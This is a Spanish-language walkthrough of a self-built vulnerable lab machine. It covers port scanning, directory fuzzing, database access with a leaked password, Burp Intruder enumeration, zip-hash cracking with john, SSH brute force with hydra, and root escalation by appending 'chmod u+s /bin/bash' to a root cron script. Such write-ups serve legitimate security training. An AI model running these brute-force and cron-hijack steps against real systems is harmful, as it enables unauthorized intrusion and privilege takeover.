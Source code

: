 
Este write up pertenece a mi primera máquina vulnerable creada por mi!!
Vamos a ello :)

Empezaremos haciendo un escaneo básico de puertos abiertos:

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y tenemos los puertos 80, 22 y 3306 abiertos

Empezaremos visitando la web y vemos la siguiente página:

![](./images/1.png)
Si vemos el código fuente nos encontramos con el siguiente mensaje:

```
 I am Grooti...
        Creo que Rocket ha entrado a mi base de datos...
```

Y si accedemos al apartado "Mis fotos" veremos un README.txt con el siguiente contenido:

```
(password1) Encuentra donde ponerla ;)
```

Parece ser la contraseña de una base de datos.
Si accedemos al apartado de "Mi base de datos" nos sale "not found" habrá que encontrar el directorio de la base de datos. Para ello haremos fuzzing web:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Y nos encuentra un directorio nuevo:

```
http://172.17.0.2/secret/
```

Accedemos a ella y nos encontramos con esto:

![](./images/2.png)


Aparece un panel de una base de datos, y podemos descargarnos un archivo que se llama instrucciones. Vamos a ver que contiene:

```
look carefully here ;)
```

Este mensaje nos aparece al principio pero si bajamos abajo del todo:

```
mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

Tenemos el comando para acceder a mysql, probaremos con la contraseña de antes: password1

Conseguimos acceso a la base de datos y ahora para ver que hay haremos lo siguiente:

```
show databases;
+--------------------+
| Database           |
+--------------------+
| files_secret       |
| information_schema |
| performance_schema |
+--------------------+

MySQL [(none)]> use files_secret;

Database changed
MySQL [files_secret]> show tables;
+------------------------+
| Tables_in_files_secret |
+------------------------+
| rutas                  |
+------------------------+

MySQL [files_secret]> select * from rutas;
+----+------------+---------------------------------+
| id | nombre     | ruta                            |
+----+------------+---------------------------------+
|  1 | imagenes   | /var/www/html/files/imagenes/   |
|  2 | documentos | /var/www/html/files/documentos/ |
|  3 | facturas   | /var/www/html/files/facturas/   |
|  4 | secret     | /unprivate/secret               |
+----+------------+---------------------------------+
```

Encontramos un nuevo directorio secreto, vamos a verlo:

![](./images/3.png)

Vemos esta página donde nos piden dos entradas de texto, la segunda tiene que ser un número del 1 al 100. Vamos a probar que pasa poniendo hola y el número 1. Se nos descarga un archivo que pone lo siguiente:

```
Buen intento!
```

Vemos que se nos descarga un archivo llamado password*.txt donde el asterisco es el número que le demos, vamos a probar con el 5, 3 y con el último que se puede el 100:

```
paswword5.txt = Asi no lo vas a conseguir...
password100.txt =Caaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaasi ;)
password3.txt = Igual la fuerza bruta es un recurso...
```

Vaya, capturaremos la petición con burpsuite y la petición se la mandamos al intruder para hacer fuerza bruta. Lo configuramos así y lanzamos el ataque:

![](./images/4.png)

En el ataque vemos que el número 16 su "length" es muy superior al resto, por tanto cogeremos su petición y la envíamos:

![](./images/5.png)![](./images/6.png)

En el apartado proxy le damos a "forward" y automáticamente se nos descarga un password16.zip, que a su vez esta protegido con contraseña. Vamos a crackearla:

```
zip2john password16.zip >> hash
```

```
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash 

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (password16.zip/password16.txt) 
```

La contraseña del .zip es: password1, descomprimimos y nos saca un password16.txt, que es un diccionario de contraseñas, haremos fuerza bruta a ssh con el usuario "grooti", ya que en la página principal, se menciona: "I am grooti":

```
hydra -l grooti  -P password16.txt  ssh://172.17.0.2 

[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt

```

Ya tenemos la contraseña, vamos a acceder a ssh ahora. Y conseguimos acceder a la máquina!!

ESCALADA DE PRIVILEGIOS

Para la escalada, esta máquina, esta configurada por el crontab:

```
crontab -e 

* * * * * /opt/cleanup.sh
```

```
cat cleanup.sh 
#!/bin/bash

bash /tmp/malicious.sh
```

No tenemos permisos de escritura, pero el script dice que se está ejecutando otro script en /tmp, iremos allí.

En /tmp hay este script: malicious.sh donde se ejecuta una creación de logs y posteriormente se elimina.

```
cat malicious.sh 
#!/bin/bash

LOG_TEMP="/tmp/mi_log_temporal.log"

echo "Log temporal creado a $(date)" > "$LOG_TEMP"
echo "Archivo $LOG_TEMP creado."

sleep 2

rm -f "$LOG_TEMP"
echo "Archivo $LOG_TEMP eliminado después de 2 segundos."
```

Aquí si tenemos permisos de escritura y como, root, por el crontab, ejecuta cada minuto el script de /opt que a su vez ejecuta este script, vamos a modificarlo para que nos devuelva una bash como root:

```
echo 'chmod u+s /bin/bash' >> malicious.sh 
```

Esperamos un minuto, ejecutamos bash -p y...

```
grooti@7e045e587dbb:/tmp$ bash -p
bash-5.2# whoami
root
```

Finalemente pwned ;)

```
bash-5.2# cd /root
bash-5.2# cat grooti.txt 
⠰⣶⣶⣶⣄⠀⠀⠀⢀⣀⠀⠀⣠⣄⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠻⣿⣿⣿⡀⠀⠀⣿⠿⠷⢾⡏⠉⣿⣄⢀⣿⣷⡆⠀⠀
⢀⣠⣬⡁⢸⣿⣶⣿⣿⡇⠀⣾⡇⠀⣿⡏⠛⢻⣿⢧⣤⠀
⢸⣿⡿⡿⢻⠇⠀⢿⣿⡇⣠⣿⡇⣼⡿⠀⠀⣼⡏⢠⣾⠀
⢸⣿⡀⢀⣿⠀⣴⠈⣿⣿⣿⣿⣿⣿⠃⣾⣤⣿⠀⣼⣿⠀
⢸⣿⣧⢸⣿⣧⣿⣇⣿⣿⣿⣿⣿⣿⣾⣿⣿⣏⣼⣿⣿⠀
⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡄
⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠁
⠀⢹⣿⣿⣿⣿⣿⠉⠙⣿⣿⣿⣿⣿⡯⠉⢻⣿⣿⣿⣿⠀
⠀⠸⣿⣿⣿⣧⡀⠀⣠⣿⣿⣿⣿⣄⠀⢀⣼⣿⣿⣿⠇⠀
⠀⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀
⠀⠀⠘⣿⣿⣿⣿⣿⡿⠿⠿⢿⣿⣿⣿⣿⣿⣿⡟⠁⠀⠀
⠀⠀⠀⠘⣿⣿⣿⣿⣷⣄⣀⣀⣠⣿⣿⣿⣿⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⠿⠟⠛⠉⠀⠀⠀⠀
```
